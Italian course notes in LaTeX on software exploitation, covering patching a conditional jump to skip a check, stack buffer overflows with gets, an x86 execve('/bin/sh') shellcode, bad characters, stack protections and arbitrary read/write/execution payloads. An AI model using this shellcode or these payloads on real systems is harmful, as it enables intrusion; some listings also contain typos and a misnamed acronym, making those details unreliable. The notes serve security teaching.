Osservando il codice possiamo notare la riga con il comando \textit{jne} (0x75), cosa succederebbe se la modificassimo in \textit{je} (0x74)?
\begin{figure}[h!]
    \centering
    
\includegraphics[width=.6\linewidth]{res/jump_table_code.png}
    \caption{}
\end{figure}

utilizzando il tool xxd potremo effettuare questa modifica come segue:
\begin{lstlisting}[language=bash]
    xxd -PS test > test.hex
    sed -i 's/ffff85c07511/ffff85c07411/' test.hex
    xxd -ps -r test.hex > test
\end{lstlisting}

otterremo il seguente risultato:
\begin{figure}[h!]
    
\includegraphics[width=.6\linewidth]{res/static_modificatio_test2.png}
    \centering
    \caption{}
\end{figure}
adesso potremo eseguire il programma e avremo una bella sorpresa:
\begin{lstlisting}[language=bash]
    command:
    ./test ciao

    output:
    Wow!
\end{lstlisting}
potremo vedere come il controllo non sia stato effettuato e quindi siamo riusciti ad eluderlo per farci stamapare ciò che volevamo.

\begin{lema}
    Il cambio di codice effettuato ha dei limiti in quanto in base all'architettura (e.g. x86\_64) dovremo controllare il comando da inserire sia al massimo grande quanto quello da modificare nel caso in cui i byte siano variabili perchè altrimenti andremo a sovrascrivere altri byte portando a un errore in esecuzione.
    Questa cosa non avviene nel caso in cui il byte siano fissati perchè ogni comando avrà semore quello spazio a disposizione a prescindere se più piccolo, se un comando risualta più corto è consigliato inserire il codice di \textit{NOP (0x90)} (ignora l'istruzione e va avanti) per evitare di sporcare la memoria e rendere alterata l'esecuzione.
    Questa modalità prende il nome di NOP Sled perchè permette anche di indirizzare l'esecuzine verso il nostro shellcode senza conoscerne precisamente la posizione in memoria.
\end{lema}

Un altro metodo per effettuare l'analisi statica è quella di utilizzare il framework \textit{angr} (combina l'analisi statica e dinamica simbolica, concolic analysis).
Utilizzando questo framework l'eseguibile verrà caricato nel framework, successivamente il binario verrà trasformato in \textbf{IR} (intermediate representation) e infine verrà eseguita l'analisi.

\chapter{Smashing the stack}

\section{Introduzione}
Come detto in precedenza riprendiamo il concetto di stack nella memoria, lo stack è quella parte di memoria gestita automaticamente dal sistema dove vengono allocate le variabili locali (variabili che non vengono allocate con una chiamata alla funzione malloc), inoltre viene salvato al suo interno anche lo stato delle funzioni che vengono chiamate.
Nei processori x86 abbiamo varie convenzioni di chiamata, dipende dal sistema operativo, come detto sempre in precedenza lo stack è una parte di memoria che cresce nella direzione opposta degli indirizzi di memoria.

\section{Buffer overflow attack}
L'errore di \textbf{buffer overflow} è un errore che si può presentare sullo stack del sistema, occorre quando un programma scrive negli indirizzi di memoria del \textbf{call stack} del programma uscendo fuori dai limiti imposti dalla struttura dati, di solito un buffer di lunghezza fissata.
Questo bug viene causato quando un programma scrive più dati di quelli che riesce a contenere il buffer facendo si di sfondare il limite e andando a scrivere in zone di memoria diverse portando a sovrascrivere queste zone.
Scrivendo più dati rispetto a quelli che può contenere il buffer porterà a far deragliare l'esecuzione del programma in quanto lo stack contiene gli indirizzi di ritorno per tutte le funzioni attive chiamate.

Questa situazione può essere anche causata deliberatamente per effettuare un attacco di tipo \textbf{stack smashing}, in quanto se il programma in esecuzione possiede particolari privilegi noi potremo manipolarne l'esecuzione inniettando delle porzioni di codice arbitrarie e deviarne l'esecuzione a piacimento.

\subsection{Call stack}
La call stack è una struttura mantenuta in memoria centrale che permette di salvare lo stato del programma (e.g. variabili locali, indirizzi di ritorno ecc.), la sua struttura è fondamentale per sfruttare questo attacco.

\begin{center}
    \begin{table}[h!]
        \centering
        \begin{tabular}{|c|}
            \hline
            Local parameters \\
            \hline
            Return address \\
            \hline
            Saved state \\
            \hline
            Local variables \\
            \hline
        \end{tabular}
        \caption{Call stack}
    \end{table}
\end{center}

Come si può vedere le variabili locali si trovano all'inizio della struttura, crescendo dal basso lo stack, e questa cosa è molto importante per eseguire l'attacco perchè il sistema rimpirà le variabili dal basso verso l'alto e quindi potremo arrivare a sfondare il buffer per raggiungere quello che a noi interessa cioé l'\textbf{indirizzo di ritorno} che è quello che poi reindirizzerà il puntatore del processore al codice che abbiamo inserito noi.
Supponendo di avere il seguente codice \textit{C}:
\begin{lstlisting}[language=C]
    uint32_t a;
    unsigned char b[4];
\end{lstlisting}
avremo un call stack come segue
\begin{center}
    \begin{table}[h!]
        \centering
        \begin{tabular}{|c|}
            \hline
            a \\
            \hline
            b \\
            \hline
        \end{tabular}
    \end{table}
\end{center}

\subsection{Vulnerable code}
Adesso prendiamo in esame il seguente codice: 
\begin{lstlisting}[language=C]
    int foo(int _){
        char e[4];

        gets(e);
        return 0;
    }
    foo(a);
\end{lstlisting}

In questo esempio possiamo vedere come sia stato definito un buffer di 4 caratteri nella funzione \textit{foo} e successivamente attraverso la funzione \textit{gets} lo andiamo a riempire prendendo l'input dal terminale.
L'utilizzo della funzione \textit{gets} renderà questo codice non sicuro e affetto da prorbabile stack smashing. La funzione \textit{gets} infatti non è consigliata in quanto in quanto non fà nessun controllo dell'input inserito, ciò permette di inserire più caratteri di quelli accettati dal buffer che verranno accodati lo stesso pertanto porteranno a un buffer overflow, si consiglia l'utilizzo di \textit{fgets}.

Supponiamo di avere il seguente codice che controlla che la variabile \textit{ok} rimanga a 0 per un esecuzione non privilegiata:

\begin{lstlisting}[language=C]
    int foo(int _) {
        uint32_t ok;
        char action [4];
        char p[4];
    
        gets(pass);
        ok = !strcmp(p, "123");
        // Get the action
        gets(action);
    
        if (ok)
            Privileged
        return 0;
    }
\end{lstlisting}

avremo una call stack formata in questa maniera inizialmente in cui la password si trova all'ultimo posto;

\begin{center}
    \begin{table}[h!]
        \centering
        \begin{tabular}{|c|}
            \hline
            Local parameters \\
            \hline
            Return address \\
            \hline
            Saved state \\
            \hline
            ok = 0 \\
            \hline
            action \\
            \hline
            A A A \\
            \hline
        \end{tabular}
    \end{table}
\end{center}
ma nel momento in cui dovremo inserire i dati dentro \textit{action} allora inserendo più di 4 caratteri potremo sfondare il buffer e modificare il valore di della variabile \textit{ok} che controlla l'esecuzione privilegiata;
\begin{center}
    \begin{table}[h!]
        \centering
        \begin{tabular}{|c|}
            \hline
            Local parameters \\
            \hline
            Return address \\
            \hline
            Saved state \\
            \hline
            B \\
            \hline
            B B B B \\
            \hline
            A A A \\
            \hline
        \end{tabular}
    \end{table}
\end{center}
ecco che a questo punto potremo deviarne l'esecuzione a nostro piaciemento entrando nella sezione privilegiata.

\begin{ex}
    \begin{lstlisting}[language=C]
        int foo(int _) {
            uint32_t a;
            uint32_t b;
            uint3:2_t c;
            uint32_t d;
            char e[4];

            gets(e);
            return 0;
        }
    \end{lstlisting}

    \begin{center}
        \begin{table}[h!]
            \centering
            \begin{tabular}{|c|}
                \hline
                Local parameters \\
                \hline
                Return address \\
                \hline
                Saved state \\
                \hline
                a \\
                \hline
                b \\
                \hline
                c \\
                \hline
                d \\
                \hline
                e \\
                \hline
            \end{tabular}
        \end{table}
    \end{center}

    una volta inseriti abbastanza caratteri potremo sfondare il buffer e arrivare all'indirizzo di ritorno
    
    \begin{center}
        \begin{table}[h!]
            \centering
            \begin{tabular}{|c|}
                \hline
                Local parameters \\
                \hline
                A A A A \\
                \hline
                A A A A \\
                \hline
                A A A A \\
                \hline
                A A A A \\
                \hline
                A A A A \\
                \hline
                A A A A \\
                \hline
                A A A A \\
                \hline
            \end{tabular}
        \end{table}
    \end{center}

    arrivati all'indirizzo di ritorno avremo l'errore di segfault sfruttabile a nostro vantaggio
    \begin{lstlisting}[language=bash]
        command:
        gdb -q ./test

        output:
        Reading symbols from ./test ...(no debugging symbols found)
        (gdb) r
        The program being debugged has been started already.
        Start it from the beginning? (y or n) y
        Starting program: /home/vagrant/test
        AAAAAAAAAAAAAAAAAAAA
        Program received signal SIGSEGV , Segmentation fault.
        0x41414141 in ?? ()
    \end{lstlisting}
        potremo così sfruttare il deragliamento del programma per eseguire del codice arbitrario come uno \textbf{shellcode}.
\end{ex}

\subsection{Shellcode}
Uno shellcode è una porzione di codice in linguaggio assembly, che generalmente esegue una shell, inittabile attraverso un exploit che ci permette di acquisire l'accesso alla macchina attaccata, o più generalmente che permette l'esecuzione di codice arbitrario.

\begin{lstlisting}[language={[x86masm]Assembler}]
    xor eax,eax;
    cdq;
    push eax;               push 0
    push 0x68732f2f;
    push 0x6e69622f;
    mov ebx,esp;
    push eax;
    push ebx;               push "/bin/sh\0"
    mov ecx,esp;            push &"/bin/sh\0"
    mov al,0x0b;            systemcall(execve)
    int 80h;                systemcall(execve, "/bin/sh", &["/bin/sh", NULL])
\end{lstlisting}
il precedente shell code è la versione compilata del codice che segue:
\begin{lstlisting}[language=C]
    char *cmd[] = {"/bin/sh", NULL };
    execve (*cmd , cmd);
\end{lstlisting}
se invece proviamo ad estrarre l'opcode dal codice assembly otterremo i seguenti valori:
\begin{center}
    \begin{table}[h!]
        \centering
        \begin{tabular}{c c c c}
            0x31 & 0xc0 & 0x99 & 0x50 \\
            0x68 & 0x2f & 0x2f & 0x73 \\
            0x68 & 0x68 & 0x2f & 0x62 \\
            0x69 & 0x6e & 0x89 & 0xe3 \\
            0x50 & 0x53 & 0x89 & 0xe1 \\
            0xb0 & 0x0b & 0xcd & 0x80 \\
        \end{tabular}
    \end{table}
\end{center}

Possiamo pensare bene di voler inserire il codice dello shellcode all'interno dello stack, come precedentemente fatto, una volta inserito il codice dovremo scoprire l'indirizzo in cui verrà caricato:
\begin{lstlisting}[language=bash]
    command:
    gdb -q ./test
    (gdb) b foo
    Breakpoint 1 at 0x8048423
    (gdb) r
    Starting program: /home/vagrant/test
    Breakpoint 1, 0x08048423 in foo ()
    (gdb) p $esp
    $1 = (void *) 0xbffff6e0 # indirizzo in cui viene caricata la funzione
\end{lstlisting}

\begin{center}
    \begin{table}[h!]
        \centering
        \begin{tabular}{|c|}
            \hline
            Local parameters \\
            \hline
            0xbffff6XX \\
            \hline
            ... \\
            \hline
        \end{tabular}
    \end{table}
\end{center}
adesso che conosciamo l'indirizzo potremo effettuare l'attacco.

\subsection{Bad chars}
Un problema nella creazione di shellcode si presenta nel momento in cui il sistema per qualche motivo non accetta alcuni caratteri, ciò ci obbligherà a sviluppare lo shellcode senza utilizzarli rendendo la cosa molto difficile in alcuni casi.
Supponiamo di avere il seguente codice:
\begin{lstlisting}[language=C]
    char x[10] = {};
    gets(x);
    for (int i = 0; i<10 ++i) {
        printf("%02x", x[i]);
    }
\end{lstlisting}

Se dovessimo eseguire il codice con input diversi vedremo come in alcuni casi non funzionerebbe, in questo caso andrebbe tutto bene:
\begin{lstlisting}[language=bash]
    command:
    perl -e 'print "AAAA\x43BBBB"' | /tmp/test

    output:
    41 41 41 41 43 42 42 42 42 00
\end{lstlisting}
ma cosa succederebbe se eseguissimo lo stesso codice inserendo il seguente carattere 0x0a?
\begin{lstlisting}[language=bash]
    command:
    perl -e 'print "AAAA\x0aBBBB"' | /tmp/test
    
    output:
    41 41 41 41 00 00 00 00 00 00
\end{lstlisting}
potremo vedere come la stringa 'BBBB' non sarà caricata in memoria in quanto il carattere immesso prima è quello di newline, quindi dovremo stare attenti a quando creiamo un script o uno shellcode perchè potrebbe risultare non efficacie.

\section{Sistemi di protezione}
Per ovviare ai problemi precedentemente elencati sono stati implementati diversi sistemi di protezione per la memoria:
\begin{itemize}
    \item \textbf{Stack canary}
    \item \textbf{Authenticated pointer (PAC)}
    \item \textbf{Non executable stack}
    \item \textbf{ASLR (Address Source Layout Randomization)}
\end{itemize}

\subsection{Stack canary}
La tecnica dello stack canary riprende un vecchio metodo utilizzato nelle miniere di carbone in cui venivano messi dei canarini per segnalare un eventuale problema, nel nostro caso il canarino è un valore intero (generato seguendo diverse politiche) che viene posto tra le variabili e l'indirizzo di ritorno in questo modo se un malintenzionato volesse effettuare un buffer overflow a questo punto si troverebbe il canarino la cui modifica allerterebbe il sistema bloccandone l'esecuzione.
Nei sistemi più moderni il canarino viene generato a runtime in modo tale da modificare il canarino in ogni esecuzione e rendere il lavoro al malintenzionato più difficile.
Esistono diverse politiche di generazione dei canarini:
\begin{itemize}
    \item \textbf{Terminator Canary}, è costituita da tutti i comuni simboli di terminazione utilizzati dalle librerie standard del C: 0(null), CR(carriage return), LF(line feed) e -1(EOF). Un malintenzionato non potrebbe usare le funzioni standard per leggere questi simboli ed incapsularli in una stringa, poiché le funzioni di copia si fermerebbero alla prima occorrenza di uno di questi caratteri.
    \item \textbf{Random Canary}, La canary word è un semplice numero casuale di 32 bit scelto al run-time. In questo modo, essa diventa un segreto facile da usare, ma difficile da indovinare, poiché non è mai rivelata e cambia ad ogni riavvio del programma.
    \item \textbf{Xor Random Canary}, Come per il Random Canary, la canary word consiste di un vettore di 128 bit casuali (quattro word scelte al run-time), messi in XOR con l'indirizzo di ritorno. In questo modo, la canary word viene legata all'indirizzo di ritorno della funzione attiva.
\end{itemize}

\subsection{Authenticated pointer}
In alcuni sistemi, in particolare quelli con architettura ARM, tutti i puntatori di ritorno sono autenticati attraverso AES la quale chiave è conosciuta solo al sistema, ciò porta al malintenzionato a dover scoprire la chiave, che cambia a ogni esecuzione del programma, per poter riautenticare l'indirizzo per far proseguire l'esecuzione altrimenti si avrà un crash del programma.
\begin{ex}
    vedi \textbf{PACMAN Attack on ARM Mac}: https://pacmanattack.com
\end{ex}

\subsection{Non executable stack}
Un altro approccio per la prevenzione all'attacco dello stack buffer overflow è rinforzare le politiche di memoria dello stack disabilitandone la possibilità dell'esecuzione.
Questo significa che l'attaccante dovrà riuscire a disabilitare la protezione di esecuzione oppure dovrà trovare una zona di memoria non protetta da essa per poter eseguire il codice.
Questo è uno dei metodi più popolari per ovviare a questa problematica.
QUesto metodo può essere comunque ovviato salvando nello stack il puntatore di un altro call stack oppure salvando lo shellcode nello heap e facendo ripuntare l'indirizzo di ritorno alla locazione di memoria dello heap.

\subsection{ASLR (Address Source Layout Randomization)}
L'ultimo metodo di mitagzione è attraverso la randomizzaione degli indirizzi del programma, con granularità della sezione. Gli indirizzi di esecuzione verranno cambiati a runtime in modo tale che a ogni esecuzione il programma cambi indirizzi rendendo sempre più difficile all'attaccante la ricerca di essi.

\begin{lstlisting}[language=bash]
    command:
    sleep 1 & grep 'stack' /proc/${!}/ maps
    
    output:
    7ffceda25000 -7 ffceda46000 rw -p 00000000 00:00 0
    [stack]
\end{lstlisting}
\begin{lstlisting}[language=bash]
    command:
    sleep 1 & grep 'stack' /proc/${!}/ maps
    
    output:
    7fff6f016000 -7 fff6f037000 rw -p 00000000 00:00 0
    [stack]
\end{lstlisting}

Come possiamo vedere a ogni esecuzione del programma il sistema si occuperà di modificare gli indirizzi.
\begin{center}
    \begin{table}[h!]
        \centering
        \begin{tabular}{c c c c}
             & Local & Parameters & \\
            ? & ? & ? & ? \\
            0x31 & 0xc0 & 0x99 & 0x50 \\
            0x68 & 0x2f & 0x2f & 0x73 \\
            0x68 & 0x68 & 0x2f & 0x62 \\
            0x69 & 0x6e & 0x89 & 0xe3 \\
            0x50 & 0x53 & 0x89 & 0xe1 \\
            0xb0 & 0x0b & 0xcd & 0x80 \\
        \end{tabular}
    \end{table}
\end{center}

\chapter{Smashing software}

\section{Memory Corruption}

\subsection{Arbitrary Read}
Un'\textbf{Arbitrary Read} è la possibilità di leggere qualsiasi parte della memoria (mappata) in processo.
Ecco un esempio di lettura arbitraria della memoria:
\begin{lstlisting}[language=C]
    uint32_t arbitrary_read(uint32_t *ptr) {
        return *ptr;
    }
\end{lstlisting}
Questo metodo ci aiuta a scoprire il valore del canarino e i valori di indirizzi generati dall'ASLR, nel caso ci fosse questo tipo di vulnerabilità saremo in grado di bypassare le protezioni citate.

Vediamone un esempio:
\begin{lstlisting}[language=C]
struct person {
    char age[4];
    char *name;
};
int main (...) {
    struct person a;
    a.name = malloc (20);
    printf("name?\n");
    gets(a.name);
    printf("age?\n");
    gets(a.age);
    printf("%s\n", a.name);
    return 0;
}
\end{lstlisting}
Schema delle variabili di una struct in memoria:
\newline

\begin{center}
    \begin{table}[h!]
        \centering
        \begin{tabular}{|c|}
            \hline
            a.age \\
            \hline
            \&a.name \\
            \hline
        \end{tabular}
    \end{table}
\end{center}

\begin{lema}[]{}{}
    Al contrario delle variabili nello stack che vengono salvata dal basso verso l'alto, quando nelle struct le variabili verranno salvate dall'alto verso il basso.
\end{lema}
Il seguente comando leggerà il contenuto della memoria all'indirizzo 0x43434343:
\begin{lstlisting}[language=bash]
    perl -e \ 'print "A\n","B"x20 ,"C"x4' | ./vuln
\end{lstlisting}

\subsection{Arbitrary write}
Analogamente all'arbitrary read vi è anche l'\textbf{arbitrary write}, che dà la possibilità di scrivere in una zona di memoria arbitraria qualunque purchè mappata nel processo.
\begin{lstlisting}[language=C]
    void arbitrary_write(uint32_t *ptr , uint32_t val) {
        *ptr = val;
    }
\end{lstlisting}
Al contrario della \textit{gets} che ha bisogno di sfondare tutto il buffer per raggiungere l''indirizzo di ritorno, grazie all'utilizzo dell'a.w. potremo leggere zone della memoria arbitrarie e contestualmente modificarle a nostro piacimento (ove possibile), questo ci aiiterà a eseguire codice nel programma, alterandone la sua esecuzione.

\begin{lstlisting}[language=C]
    struct person {
        char age [4];
        char *name;
    };

    int main (...) {
        struct person a;
        a.name = malloc (20);
        printf("age?\n");
        gets(a.age);
        printf("name?\n");
        gets(a.name);
        return 0;
    }
\end{lstlisting}

\begin{center}
    \begin{table}[h!]
        \centering
        \begin{tabular}{|c|}
            \hline
            age \\
            \hline
            name \\
            \hline
        \end{tabular}
    \end{table}
\end{center}

\begin{lstlisting}[language=bash]
    perl -e \ 'print "AAAACCCC\n","ciao" '| ./vuln
\end{lstlisting}
Grazie al precedente comando potremo scrivere la string "ciao" all'indirizzo di memoria 0x43434343.

\subsection{Arbitrary execution}
Oltre la scrittura e la lettura avremo anche l'esecuzione, che prende il nome di \textbf{Arbitrary execution}, ciò ci darà la possibilità di eseguire arbitrariamente qualunque parte della memoria mappata dal processo.
\begin{lstlisting}[language=C]
    void bark(char *s) {
        printf("woof %s!\n", s); 
    }

    struct animal {
        char name [4];
        void (*cry)( char *);
    };

    int main (...) {
        char s[128];
        struct animal dog;
        dog.cry = bark;
        gets(dog.name);
        gets(s);
        dog.cry(s);
    }
\end{lstlisting}
\begin{center}
    \begin{table}[h!]
        \centering
        \begin{tabular}{|c|}
            \hline
            name \\
            \hline
            cry() \\
            \hline
        \end{tabular}
    \end{table}
\end{center}

\begin{lstlisting}[language=bash]
    perl -e \ 'print "AAAACCCC\n","ls" '| ./vuln
\end{lstlisting}
Questo comando ci permetterà di eseguire porzione di codice inserito all'indirizzo 0x43434343, in questo caso \textit{ls}.

\begin{ex}
    \begin{lstlisting}[language=bash]
        echo "p system" | gdb -q ./vuln
        Reading symbols from ./vuln ... done.
        (gdb) $1 = 0x80483d0 <system@plt >
        $ perl -e 'print "AAAA\xd0\x83\x04\x08\n","ls" | ./vuln
        Name?
        Cry?
        vuln vuln.c
    \end{lstlisting}
    in questo esempio attraverso \textit{gdb} riusciremo a trovare l'indirizzo, sfruttandolo per eseguire \textit{ls}.
\end{ex}

\section{Librerie Dinamiche}

\subsection{Introduzione}
Una libreria dinamica è una porzione di codice che viene caricata nel binario subito prima dell'esecuzione del programma (runtime), questa metodologia ha molti vantaggi:
\begin{itemize}
    \item la condivisione del codice delle librerie solo se necessarie, e.g. avremo solo una copia del codice della printf in memoria;
    \item aggiornamento della libreria una volta per tutti i programmi che la implementano;
    \item si riduce sensibilmente la grandezza del binario finale.
\end{itemize}

\begin{figure}[h!]
    \centering
